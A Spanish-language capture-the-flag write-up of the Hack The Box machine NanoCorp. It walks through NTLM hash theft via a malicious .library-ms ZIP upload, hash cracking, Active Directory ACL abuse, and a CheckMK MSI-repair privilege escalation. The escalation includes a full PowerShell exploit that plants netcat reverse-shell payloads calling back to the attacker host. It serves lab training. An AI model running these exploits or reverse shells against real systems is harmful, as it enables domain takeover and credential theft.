




```markdown
# Writeup: NanoCorp (Hack The Box — Retirada)

NanoCorp es una máquina **Hard** que simula el entorno de una pequeña corporación con múltiples cuentas de servicio, permisos mal configurados y una herramienta de monitorización empresarial explotable. El objetivo es pasar de un punto de entrada inicial (obteniendo un hash NTLMv2) hasta el compromiso total del dominio y la obtención de la flag de SYSTEM.

---

## Fase 1: Reconocimiento (Escaneo de puertos)

Lanzamos un escaneo completo de puertos con Nmap para descubrir todos los servicios expuestos:

```bash
sudo nmap -sS --min-rate 500 -p- -n -Pn 10.129.243.199 -oG allPorts
```

**Explicación de parámetros:**

- `-sS`: Escaneo SYN (sigiloso), rápido y sin completar la conexión TCP.
- `--min-rate 500`: Fuerza a Nmap a enviar al menos 500 paquetes por segundo, acelerando el escaneo.
- `-p-`: Escanea todos los 65535 puertos.
- `-n`: Omite la resolución DNS para evitar demoras.
- `-Pn`: Salta el descubrimiento de hosts (asume que la máquina está activa).
- `-oG allPorts`: Guarda la salida en formato "grepable" para procesarla fácilmente.

**Resultado del escaneo:**

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-27 07:30 -0400
Nmap scan report for 10.129.243.199
Host is up (0.11s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5986/tcp  open  wsmans
9389/tcp  open  adws
49624/tcp open  unknown
49629/tcp open  unknown
49651/tcp open  unknown
49664/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 327.14 seconds
```

Tras el escaneo, utilizo mi función `extractPorts` (definida en `~/.zshrc`) para extraer la IP y los puertos abiertos, y copiarlos automáticamente al portapapeles:

```bash
┌──(kali㉿kali)-[~/Projects/NanoCorp/nmap]
└─$ extractPorts allPorts

[*] Extrayendo información...

        [*] Dirección IP: 10.129.243.199
        [*] Puertos abiertos: 53,80,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49624,49629,49651,49664,49669

[*] Puertos copiados al portapapeles
```

### Enumeración de servicios

Con los puertos identificados, realizamos un escaneo más exhaustivo para determinar qué servicios y versiones están corriendo en cada uno:

```bash
nmap -sVC -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49624,49629,49651,49664,49669 10.129.243.199 -oN targeted
```

**Resultado:**

```bash
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
80/tcp    open  http              Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-title: Nanocorp | Career Opportunities
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-06-27 07:42:15Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb, Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/wsmans?
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.nanocorp.htb
| Subject Alternative Name: DNS:dc01.nanocorp.htb
| Not valid before: 2025-04-06T22:58:43
|_Not valid after:  2026-04-06T23:18:43
9389/tcp  open  mc-nmf            .NET Message Framing
49624/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49629/tcp open  msrpc             Microsoft Windows RPC
49651/tcp open  msrpc             Microsoft Windows RPC
49664/tcp open  msrpc             Microsoft Windows RPC
49669/tcp open  msrpc             Microsoft Windows RPC
Service Info: Hosts: nanocorp.htb, DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-06-27T07:43:44
|_  start_date: N/A
|_clock-skew: 7h00m12s
```

**Observaciones clave del escaneo:**

- **Puertos AD típicos**: 53 (DNS), 88 (Kerberos), 135, 389 (LDAP), 445 (SMB), 464 (kpasswd5), 636 (LDAPS), 3268/3269 (catálogo global), 5986 (WinRM sobre HTTPS), 9389 (ADWS).
- **Dominio**: `nanocorp.htb` y el host `dc01.nanocorp.htb`.
- **Puerto 80**: Servidor web Apache con PHP, aparentemente un portal de empleo ("Nanocorp | Career Opportunities").
- **Firma SMB**: El mensaje está habilitado y es requerido (lo que dificulta ataques de relé).

Configuramos la resolución DNS del dominio en nuestro archivo `/etc/hosts`:

```bash
echo "10.129.243.199 nanocorp.htb dc01.nanocorp.htb" >> /etc/hosts
```

---

## Fase 2: Enumeración Web

El puerto 80 nos presenta un sitio web de empleo de NanoCorp. Al inspeccionar la página, encontramos un subdominio dedicado a la contratación: `hire.nanocorp.htb`. Este portal permite a los candidatos subir sus currículums en formato `.zip` o `.rar`, y el servidor los extrae automáticamente. Este comportamiento, en un entorno Windows, es una señal de alarma clásica: la extracción automática de archivos puede desencadenar conexiones SMB que filtran hashes NTLM.



Antes de profundizar, realicé algunas comprobaciones rápidas para confirmar la naturaleza del objetivo. Probé autenticación nula con `nxc`:

```bash
nxc ldap 10.129.243.199 -u 'guest' -p ''
LDAP        10.129.243.199  389    DC01             [-] nanocorp.htb\guest: STATUS_ACCOUNT_DISABLED

nxc smb 10.129.243.199 -u 'guest' -p ''
SMB         10.129.243.199  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:nanocorp.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.243.199  445    DC01             [-] nanocorp.htb\guest: STATUS_ACCOUNT_DISABLED
```

Aunque el usuario invitado está deshabilitado, el resultado de `nxc ldap` reveló dos características críticas:

- `signing:None`: El controlador de dominio no exige la firma LDAP, lo que permite que se acepten enlaces LDAP sin firmar.
- `channel binding:No TLS cert`: Tampoco se aplica la vinculación de canales (EPA) a través de TLS.

En conjunto, estas configuraciones hacen que el DC sea vulnerable a **NTLM relay hacia LDAP**. Esto, sumado a la funcionalidad de subida de archivos, me hizo sospechar que el vector de ataque más probable era una vulnerabilidad conocida de robo de NTLM.

### Identificación de la vulnerabilidad

El proceso de descubrimiento fue el siguiente:

1. **Observación del ataque:** El portal `hire.nanocorp.htb` permite subir un ZIP que el servidor extrae automáticamente. En Windows, ciertos tipos de archivos, al ser procesados, intentan conectarse a rutas UNC, enviando el hash NTLM del usuario.

2. **Pregunta clave:** *"¿Qué tipos de archivos de Windows, al ser extraídos o abiertos, desencadenan una conexión SMB?"*

3. **Conocimiento previo:** Archivos como `.scf`, `.lnk`, `.url` y `desktop.ini` han sido históricamente utilizados para robar hashes NTLM. En 2025, se documentó un nuevo vector: los archivos `.library-ms`.

4. **Búsqueda en Google y GitHub:** Usé términos como `"library-ms NTLM leak CVE 2025"` y `"ZIP upload Windows NTLM hash steal"`, lo que me llevó al **CVE-2025-24071** (aunque Microsoft lo renombró posteriormente). Encontré un PoC funcional en GitHub: [CVE-2025-24054](https://github.com/reloc2/CVE-2025-24054).

### ¿Cómo funciona el CVE-2025-24071?

La vulnerabilidad reside en cómo Windows maneja los archivos **`.library-ms`** (archivos XML que definen bibliotecas de carpetas). El ataque se desarrolla así:

1. El atacante crea un archivo `.library-ms` malicioso que contiene una **ruta UNC** (por ejemplo, `\\atacante\share`) que apunta a su propio servidor.
2. Cuando Windows procesa este archivo (al extraerlo de un ZIP, al abrirlo, o incluso al **navegar a la carpeta donde se encuentra**), el sistema intenta conectarse automáticamente a esa ruta remota.
3. En ese intento de conexión, Windows inicia una **autenticación NTLM automática** y envía el **hash NetNTLMv2** del usuario al servidor del atacante.

### Explotación

Cloné el repositorio del PoC y generé un archivo malicioso:

```bash
python poc.py
Enter your file name: payload
Enter IP (EX: 192.168.1.162): 10.10.17.44
completed
```

Verifiqué el contenido del ZIP:

```bash
unzip -l exploit.zip
Archive:  exploit.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      365  2026-06-26 20:48   payload.library-ms
---------                     -------
      365                     1 file
```

Mientras tanto, en otra terminal, inicié `responder` en modo escucha para capturar las peticiones NTLM:

```bash
sudo responder -I tun0 -v
```

Subí el archivo `exploit.zip` a través del portal `hire.nanocorp.htb`. Al procesarlo, `responder` capturó el hash del usuario **`web_svc`**:

```bash
[SMB] NTLMv2-SSP Client   : 10.129.243.199
[SMB] NTLMv2-SSP Username : NANOCORP\web_svc
[SMB] NTLMv2-SSP Hash     : web_svc::NANOCORP:... (hash completo)
```

### Crackeo del hash y obtención de credenciales

Guardé el hash en un archivo y lo crackeé con `hashcat` (modo 5600) usando el diccionario `rockyou.txt`:

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force
```

El crackeo reveló la contraseña de `web_svc`: **`****`**. Verifiqué las credenciales con `nxc`:

```bash
nxc smb 10.129.243.199 -u 'web_svc' -p '****'
SMB         10.129.243.199  445    DC01             [+] nanocorp.htb\web_svc:****
```

---

## Fase 3: Enumeración de Active Directory con BloodHound

Con las credenciales de `web_svc`, el siguiente paso es mapear el dominio para identificar rutas de escalada. Usé `nxc` con el módulo de BloodHound para recolectar datos de forma automatizada:

```bash
nxc ldap nanocorp.htb -u 'web_svc' -p '****' --dns-server 10.129.243.199 --bloodhound -c all
```

```bash
LDAP        10.129.243.199  389    DC01             Done in 1M 13S
LDAP        10.129.243.199  389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.129.243.199_2026-06-26_211604_bloodhound.zip
```

Importé el archivo ZIP en BloodHound. Tras analizar el grafo, encontré una ruta de escalada crítica:



- El usuario **`web_svc`** tiene el permiso **`AddSelf`** sobre el grupo **`IT_SUPPORT`**. Esto significa que `web_svc` puede añadirse a sí mismo como miembro de ese grupo.
- El grupo **`IT_SUPPORT`** tiene el permiso **`ForceChangePassword`** sobre la cuenta **`monitoring_svc`**.
- La cuenta **`monitoring_svc`** tiene acceso **`WinRM`** sobre el controlador de dominio.

Esta cadena de permisos nos permite escalar de `web_svc` a `monitoring_svc` y, desde ahí, obtener acceso al sistema.





### La cuenta `monitoring_svc`: contexto y limitaciones

`monitoring_svc` pertenece a varios grupos que definen sus capacidades y limitaciones:

- **`Domain Users`**: Grupo base que indica que la cuenta es un usuario del dominio.
- **`Remote Management Users`**: Permite a sus miembros conectarse al sistema mediante **WinRM**. Es el permiso que nos permite obtener una shell.
- **`Protected Users`**: Grupo restrictivo que aplica protecciones no configurables. Las limitaciones incluyen:
  - No pueden autenticarse con **NTLM**.
  - Solo pueden usar cifrados **AES** en Kerberos.
  - El **TGT** tiene una vida útil máxima de **4 horas**.
  - No se almacenan credenciales en caché.

Estas restricciones convierten a `Protected Users` en un arma de doble filo. En nuestro caso, para conectarnos por WinRM, debemos usar el **FQDN** (`dc01.nanocorp.htb`) y no la IP, para que la autenticación Kerberos funcione.

---

## Fase 4: Abuso de permisos ACL y escalada

Antes de proceder, es fundamental sincronizar la hora con el dominio:

```bash
sudo ntpdate dc01.nanocorp.htb
```

> **Nota:** Esta máquina tiene un script de limpieza que puede resetear el entorno periódicamente. Si los tickets dejan de funcionar, repite la sincronización y vuelve a obtener el TGT.

### Obtener un TGT para `web_svc`

```bash
impacket-getTGT nanocorp.htb/web_svc:'****' -dc-ip dc01.nanocorp.htb
```

### Configurar Kerberos

```bash
nxc smb dc01.nanocorp.htb --generate-krb5-file nanocorp.krb5
export KRB5_CONFIG=nanocorp.krb5
```

### Añadir `web_svc` al grupo `IT_SUPPORT`

```bash
KRB5CCNAME=web_svc.ccache bloodyAD --host dc01.nanocorp.htb -d nanocorp.htb -k add groupMember IT_SUPPORT web_svc
```

### Cambiar la contraseña de `monitoring_svc`

```bash
KRB5CCNAME=web_svc.ccache bloodyAD --host dc01.nanocorp.htb -d nanocorp.htb -k set password monitoring_svc 'P@ssw0rd123!'
```

### Obtener TGT para `monitoring_svc`

```bash
impacket-getTGT nanocorp.htb/monitoring_svc:'P@ssw0rd123!' -dc-ip dc01.nanocorp.htb
```

### Conexión por WinRM

```bash
wget https://raw.githubusercontent.com/ozelis/winrmexec/main/winrmexec.py

KRB5CCNAME=monitoring_svc.ccache python3 winrmexec.py -k 'nanocorp/monitoring_svc@dc01.nanocorp.htb' -no-pass -port 5986 -ssl
```

```powershell
PS C:\Users\monitoring_svc> whoami
nanocorp\monitoring_svc

PS C:\Users\monitoring_svc> tree /f
...
+---Desktop
¦       user.txt
```

En el escritorio, encontramos la **flag de usuario (`user.txt`)**.

---

## Fase 5: Enumeración local y escalada a SYSTEM

Tras obtener una shell como `monitoring_svc`, enumeré el sistema en busca de vectores de escalada:

```powershell
PS C:\> ls

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         11/3/2025   4:13 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          4/2/2025   6:35 PM                Program Files
d-----          4/5/2025   4:17 PM                Program Files (x86)
d-r---          4/9/2025   6:19 PM                Users
d-----         11/3/2025   4:18 PM                Windows
d-----          4/5/2025  10:59 AM                xampp
```

El directorio `Program Files (x86)` albergaba una carpeta llamada **`checkmk`**:

```powershell
PS C:\> ls 'Program Files (x86)'

    Directory: C:\Program Files (x86)

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          4/5/2025   4:17 PM                checkmk
```

Investigué qué era CheckMK. Se trata de una plataforma de monitorización de infraestructuras TI. Revisé los puertos en escucha y encontré el puerto **6556** asociado al proceso `cmk-agent-ctl`:

```powershell
PS C:\> netstat -ano | findstr LISTENING | findstr :6556
  TCP    0.0.0.0:6556           0.0.0.0:0              LISTENING       3804
  TCP    [::]:6556              [::]:0                 LISTENING       3804

PS C:\> get-process | findstr 3804
    103      11     1456       7416              3804   0 cmk-agent-ctl
```

Busqué la versión del agente en el registro:

```powershell
PS C:\> Get-ItemProperty "HKLM:\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | Select DisplayName, DisplayVersion | Sort DisplayName

DisplayName                                                        DisplayVersion
-----------                                                        --------------
Check MK Agent 2.1                                                 2.1.0.50010
```

La versión **2.1.0.50010** me llevó a investigar vulnerabilidades conocidas. Encontré el **CVE-2024-0670**: una vulnerabilidad de escalada de privilegios local en el mecanismo de reparación del MSI de CheckMK Agent. Cuando se repara el paquete, `msiexec.exe` se ejecuta como **SYSTEM** y procesa archivos `.cmd` desde `C:\Windows\Temp\` con nombres predecibles (`cmk_all_<PID>_<CTR>.cmd`). Al sembrar miles de archivos maliciosos, podemos forzar que uno sea ejecutado con privilegios de SYSTEM.

### Preparación de la explotación

Desde mi Kali, preparé las herramientas necesarias:

```bash
# Copiar netcat
cp /usr/share/windows-resources/binaries/nc.exe .

# Descargar RunasCs
wget https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip
unzip RunasCs.zip
```

Monté un servidor HTTP para transferir los binarios a la máquina víctima:

```bash
python3 -m http.server 8000
```

Desde la shell de `monitoring_svc`, descargué los binarios:

```powershell
PS C:\Windows\Temp> wget "http://10.10.17.44:8000/nc.exe" -UseBasicParsing -OutFile "nc.exe"
PS C:\Windows\Temp> wget "http://10.10.17.44:8000/RunasCs.exe" -UseBasicParsing -OutFile "RunasCs.exe"
```

Preparé un script PowerShell (`pwn.ps1`) que realiza el seeding de los archivos maliciosos y fuerza la reparación del MSI:

```powershell
param(
    [int]$MinPID = 1000,
    [int]$MaxPID = 15000,
    [string]$LHOST = "10.10.17.44",
    [string]$LPORT = "4444"
)

$NcPath = "C:\Windows\Temp\nc.exe"
$BatchPayload = "@echo off`r`n$NcPath -e cmd.exe $LHOST $LPORT"

$msi = (Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Installer\UserData\S-1-5-18\Products\*\InstallProperties' |
        Where-Object { $_.DisplayName -like '*mk*' } |
        Select-Object -First 1).LocalPackage

if (!$msi) {
    Write-Error "Could not find Checkmk MSI"
    return
}

Write-Host "[*] Found MSI at $msi"
Write-Host "[*] Seeding files..."

foreach ($ctr in 0..1) {
    for ($num = $MinPID; $num -le $MaxPID; $num++) {
        $filePath = "C:\Windows\Temp\cmk_all_$($num)_$($ctr).cmd"
        try {
            [System.IO.File]::WriteAllText($filePath, $BatchPayload, [System.Text.Encoding]::ASCII)
            Set-ItemProperty -Path $filePath -Name IsReadOnly -Value $true -ErrorAction SilentlyContinue
        } catch {}
    }
}

Write-Host "[*] Seeding complete. Triggering MSI repair..."
Start-Process "msiexec.exe" -ArgumentList "/fa `"$msi`" /qn /l*vx C:\Windows\Temp\cmk_repair.log" -Wait
Write-Host "[*] Done! Check listener."
```

### ¿Por qué ejecutar como `web_svc`?

Un detalle importante es que el MSI de CheckMK fue instalado por el usuario `web_svc`. Durante la reparación, el MSI se ejecuta en el contexto de instalación de ese usuario. Si ejecutamos el script desde `monitoring_svc`, la reparación podría fallar. Por tanto, debemos usar `RunasCs.exe` para ejecutar el script PowerShell **como el usuario `web_svc`**.

Primero, confirmé que `web_svc` tenía una sesión activa en el sistema:

```powershell
PS C:\Windows\Temp> .\RunasCs.exe whatever whatever qwinsta -l 9
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 console                                     1  Conn
                   web_svc                   2  Disc
 rdp-tcp                                 65536  Listen
```

Luego, ejecuté el script `pwn.ps1` en el contexto de `web_svc`:

```powershell
PS C:\Windows\Temp> .\RunasCs.exe web_svc "****" "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\pwn.ps1"
```

El script se ejecutó correctamente:

```bash
[*] Found MSI at C:\Windows\Installer\1e6f2.msi
[*] Seeding files...
[*] Seeding complete. Triggering MSI repair...
[*] Done! Check listener.
```

Mientras tanto, en mi Kali tenía un listener en el puerto 4444:

```bash
nc -nlvp 4444
```

Unos segundos después, recibí la conexión:

```bash
connect to [10.10.17.44] from (UNKNOWN) [10.129.40.142] 51513
Microsoft Windows [Version 10.0.20348.3207]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
[REDACTED]
```

¡Shell como **SYSTEM**! Obtuve la flag de root en el escritorio del Administrador.

---

## Conclusión

NanoCorp es una máquina **Hard** que combina múltiples técnicas de ataque en un entorno Active Directory:

1. **Robo de NTLM mediante CVE-2025-24071** (archivos `.library-ms` en subida de ZIP).
2. **Crackeo del hash** de `web_svc` y obtención de credenciales.
3. **BloodHound** para identificar una ruta de escalada vía ACLs: `web_svc` → `AddSelf` a `IT_SUPPORT` → `ForceChangePassword` sobre `monitoring_svc`.
4. **Abuso de Kerberos** (TGT y autenticación basada en tickets) para ejecutar cambios en el AD.
5. **WinRM con Kerberos** para obtener una shell como `monitoring_svc` y la flag de usuario.
6. **Escalada a SYSTEM** mediante CVE-2024-0670 en el MSI de CheckMK Agent, ejecutando el payload en el contexto de `web_svc` para desencadenar la reparación.

---

## Lecciones aprendidas

1. **Los archivos .library-ms son peligrosos**  
   Cualquier ZIP que contenga un archivo `.library-ms` puede filtrar silenciosamente hashes NTLM al ser extraído en Windows — sin necesidad de interacción del usuario más allá de la extracción del archivo.

2. **BloodHound es esencial**  
   Sin BloodHound, la cadena `IT_SUPPORT` → `ForceChangePassword` → `monitoring_svc` habría sido casi imposible de encontrar manualmente.

3. **El grupo Protected Users**  
   `monitoring_svc` pertenecía al grupo `Protected Users` — NTLM completamente deshabilitado. Solo la autenticación Kerberos mediante TGT funcionó para conectarse.

4. **Desfase horario en entornos AD**  
   Siempre sincronizar la hora antes de operaciones con Kerberos. El flag `-k` de `bloodyAD` maneja esto automáticamente.

5. **El contexto importa en la escalada de privilegios**  
   El exploit del MSI de Checkmk solo funciona en el contexto de `web_svc` porque Checkmk fue instalado por ese usuario. Ejecutarlo desde el contexto de `monitoring_svc` no activa correctamente el trigger — `RunasCs` fue esencial.

6. **Un solo listener es suficiente para RunasCs**  
   No necesitas una shell intermedia. `RunasCs` puede ejecutar directamente el script de escalada en el contexto del usuario objetivo — la shell SYSTEM llega directamente a tu listener.
```

---

